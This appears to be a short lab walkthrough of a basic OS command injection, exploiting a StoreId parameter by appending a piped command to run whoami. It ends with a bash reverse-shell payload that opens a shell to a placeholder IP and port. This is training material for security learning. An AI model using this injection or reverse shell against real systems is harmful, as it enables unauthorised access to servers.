



# OS command injection, simple case

**Level:** <mark style="color:green;">**Apprentice**</mark>

<figure><figcaption></figcaption></figure>

* The lab says that we need some way to execute the command `whoami`.
* Start doing some recon to see if you can see an interesting parameter on the POST requests or in the URL

<figure><figcaption></figcaption></figure>

* The parameter in this lab is the `StoreId` .&#x20;
* The application is getting the number of units using a regex on the system. Like ( " **stockreport.pl 381 29** " or " **stockreport.pl & echo aiwefwlguh & 29** ")
* Remember that in **Linux** we can use a pipe to take _**STDOUT**_ of command and transfer it to _**STDIN**_ of the subsequent command.
* To make a simple test we put a **`"|" (pipe) <command>,`** like in the following image.

<figure><figcaption></figcaption></figure>

* In this case the code is not too much sanitized, but it gets more complicated than this.
* Now if we want to get access to a server using this vulnerability, we can use the following payload:  **bash -c "bash -i >& /dev/tcp/\<Your\_IP>/\<Port> 0>&1"**
